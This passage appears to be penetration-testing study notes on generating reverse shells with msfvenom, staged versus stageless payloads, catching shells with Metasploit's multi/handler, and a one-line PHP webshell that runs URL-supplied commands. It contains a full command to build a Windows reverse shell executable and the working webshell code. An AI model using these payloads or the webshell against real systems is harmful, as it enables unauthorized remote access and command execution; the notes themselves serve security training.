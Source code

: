		- msfvenom -p "payload" "optionsParams"
		- Example: Win x64 RevShell in exe:
			- msfvenom -p windows/x64/shell/reverse_tcp -f exe -o shell.exe LHOST="listenIP" LPORT="listenPort"
		- Staged and Unstaged code:
			- Staged
				- Sent in two parts
					- Stager
						- Executed directly on the Server itself. It will connect back to a Listener, but doesn't contain any RevShell code itself
						- Uses the connection to the Listener to load the real payload
						- Prevents it from touching the disk where it could be caught
						- The code is essentially split into two prts, a small initial stager, then the actual heavier RevShell which is downloaded when the stager is initiated
						- Listeners used would usually be a Metasploit multi-handler
			- Stageless
				- More commonplace
				- Self-contained wherein there is only one piece of code, sends a Shell back straight away to the Listener
		- Meterpreter
			- Meterpreter Shells are Metasploit's own brand of a fully-featured Shell
			- Stable
			- Good for Lin-to-Win
			- MUST use Metasploit when wanting to consider meterpreter shells
		- Basic Convention
			- "OS"/"ARCH"/"PLFILE"
				- ie linux/x86/shell_reverse_tcp
				- A stageless shell for an x86 FocusedMachine
			- Stageless payloads are noted with the use of underscores
				- "shell_reverse_tcp"
			- Staged would be
				- "shell/reverse_tcp"
			- Meterpreter would have their own inclusion without the "shell" (meterpreter/reverse_tcp or meterpreter_reverse_tcp)
		- msfvenom --list payloads
	- Metasploits Multi/Handler
		- Tool for catching RevShells
		- Essential if you want to use Meterpreter shells and is the main tool used when using Staged Payloads
		- Open Metasploit first
			- msfconsole > use multi/handler
		- Three options to be set:
			- PAYLOAD
			- LHOST (listener)
			- LPORT
			- exploit -j command to launch the LISTENER
				- -j runs the job in the bg (background)
		- When the connection has been made and the Payload has been sent, the backgrounded job can be foregrounded by `sessions 1` 
			- Only IF that is the only session running, list other sessions by tabbing `sessions` if there are others running.
			- Session identifier is presented when the Payload has been dispatched
	- WebShells
		- /usr/share/webshells
		- A script that runs inside a Web Server
			- PHP, ASP
			- PHP is still the most common server-side scripting language that is used
		- `?php echo "<pre" . shell_exec($_GET["cmd"]) . "</pre>"; ?>`
			- This will take a GET param in the URL and run it on the system with shell_exec(). 
			- Any commands we enter in the URL after ?cmd= will be executed on the said system
				- `10.10.10.69/uploads/shell.php?cmd=ifconfig`
					- Will run ifconfig on said machine and display the results in a web-browser
	- Takeaways